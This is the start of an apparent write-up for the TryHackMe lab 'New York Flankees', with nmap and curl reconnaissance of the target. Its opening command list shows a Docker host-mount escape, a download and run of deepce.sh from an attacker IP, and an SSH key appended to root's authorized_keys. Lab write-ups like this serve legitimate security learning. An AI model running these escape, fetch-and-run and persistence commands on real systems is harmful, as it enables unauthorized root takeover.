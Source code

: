 **System Commands:**

- `python3 -c 'import pty;pty.spawn("/bin/bash");'`
- `export TERM=xterm`
- `whoami`
- `env`
- `cat /app/docker-compose.yml`
- `docker image ls`
- `docker run -v /:/host --rm -it openjdk:11 sh`
- `wget http://10.2.37.37:8000/deepce.sh`
- `chmod +x deepce.sh`
- `./deepce.sh`
- `echo 'ssh-ed25519 [REDACTED] - SECRET root@kali' >> /host/root/.ssh/authorized_keys`

### Laboratory Environment

[New York Flankees](https://tryhackme.com/r/room/thenewyorkflankees)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -F -Pn $target_ip`

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 34:5e:39:aa:2d:25:de:2e:3b:58:bf:45:ed:df:b5:40 (RSA)
|   256 f7:d1:5a:39:37:a8:86:19:ef:6d:94:03:fa:07:1b:ba (ECDSA)
|_  256 90:24:4e:fe:19:9a:46:28:77:63:d6:ae:a4:a3:b2:e8 (ED25519)
8080/tcp open  http    Octoshape P2P streaming web service
|_http-title: Hello world!
```

> **HTTP Port Check**
> 

`curl -iLX GET http://newyorkflankess.thm:8080`

```bash
HTTP/1.1 200 OK
Content-Length: 4332
Content-Type: text/html; charset=UTF-8

</head>
<body>
<!-- Navbar -->
<nav class="navbar navbar-expand-lg navbar-light bg-light">
    <a class="navbar-brand" href="./index.html">Blog</a>
    <a class="navbar-brand" href="./debug.html">Stefan Test</a>
    <button class="btn btn-primary admin-login-btn">Admin Login</button>
</nav>

<div class="container mt-4">
    <!-- Blog Post -->
    <div class="blog-post">
        <h2 class="blog-post-title">Hello world!</h2>
        <p class="blog-post-content">Once upon a time, in the bustling city of New York, there was a young man named Stefan. Stefan had always been fascinated by cryptography, spending countless hours delving into the intricacies of encryption algorithms and deciphering codes.</p>
        <p class="blog-post-content">One day, while attending a baseball game of his beloved team, the Flankees, Stefan had a moment of inspiration. As the crowd cheered and the players battled it out on the field, Stefan's mind raced with ideas. What if he could create some kind of custom authentication mechanism that did not suffer from the weaknesses of basic authentication.</p>
```